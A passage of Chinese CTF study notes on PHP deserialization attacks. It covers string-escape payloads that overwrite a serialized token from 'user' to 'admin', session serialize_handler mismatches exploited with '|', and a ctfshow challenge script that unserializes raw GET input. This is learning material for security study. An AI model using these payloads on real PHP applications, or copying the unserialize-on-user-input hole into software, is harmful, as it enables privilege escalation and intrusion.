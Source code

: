 ```php
//";s:5:"token";s:4:"user
```

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"fuck";s:5:"token";s:4:"user";}
```

进行字符串逃逸以后

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"icu";s:5:"token";s:4:"user";}
```

可以看出序列化字符串loveU前面的本应该是3，结果是4，导致失败，而我们可以利用这个特点，在后面通过闭合加上自己构建的序列化内容，达到修改user为admin的目的。

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:176:"icuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicu";s:2:"to";s:27:"";s:5:"token";s:5:"admin";}";s:5:"token";s:5:"admin";}
```

最后可以执行，后面的命令，也就是绕过那个过滤

#### session反序列化

session的储存格式有两种：一种是php的，一种是php_serialize

```
session.serialize_handler( 5.5.4前默认是php；5.5.4后改为php_serialize)存在以下几种

php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值
php 键名+竖线（|）+经过serialize()函数处理过的值
php_serialize 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化
```

如果读取和写入的方式不一样，可以利用其差异进行构造利用，就像利用' | '分割键值 ，进行反序列化的时候加上一个' | '就行

#### &指针的引用

我不知道这个在php中是否叫指针，但感觉就是和c当中的指针很像，改变名字不改变值，像是传递一个地址指示样的

```php
<?php
error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}

```
